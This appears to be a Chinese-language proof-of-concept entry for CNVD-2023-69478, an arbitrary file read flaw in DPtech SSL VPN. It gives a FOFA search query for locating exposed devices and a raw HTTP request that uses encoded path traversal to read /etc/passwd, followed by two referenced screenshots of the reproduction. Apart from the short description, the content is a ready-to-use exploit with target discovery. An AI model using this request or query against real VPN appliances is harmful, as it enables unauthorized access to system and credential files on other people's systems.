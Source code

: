 # 迪普DPTech VPN 任意文件读取

## 迪普DPTech VPN 任意文件读取 CNVD-2023-69478
杭州迪普科技股份有限公司DPtech SSL VPN存在任意文件读取漏洞，攻击者可利用该漏洞获敏感信息。

## 漏洞影响产品
杭州迪普科技股份有限公司DPtech SSL VPN

## fofa
```
title=="SSL VPN Service" && header="Dptech" || cert="DPtechCa"
```

## poc
```
GET /..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: xxxxxxxxx
Cookie: SSLVPN_lang=1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
se
```
## 漏洞复现
![](/assets/780475ed2a4b528fe68184a4f665a7d1fe08f3.png)

![](/assets/7171140331ad9063b8e9a92e8161c325c0b418.png)

